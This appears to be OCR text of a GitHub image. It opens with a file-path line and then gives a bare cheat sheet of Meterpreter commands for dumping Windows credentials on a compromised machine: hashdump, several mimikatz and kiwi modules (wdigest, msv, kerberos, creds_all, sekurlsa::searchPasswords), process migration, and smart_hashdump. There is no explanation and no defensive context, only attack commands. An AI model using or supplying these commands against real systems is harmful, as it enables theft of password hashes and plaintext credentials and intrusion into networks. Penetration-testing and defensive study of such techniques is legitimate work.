 	Meterpreter > run hashdump 
	&
	Meterpreter > mimikatz_command -f samdump::hashes
	&
	Meterpreter > load mimikatz
	Meterpreter > wdigest
	&
	Meterpreter > load mimikatz
	Meterpreter > msv
	Meterpreter > kerberos
	&
	Meterpreter > load kiwi
	Meterpreter > creds_all
	&
	Meterpreter > migrate PID
	Meterpreter > load mimikatz
	Meterpreter > mimikatz_command -f sekurlsa::searchPasswords
	&
	Meterpreter > run windows/gather/smart_hashdump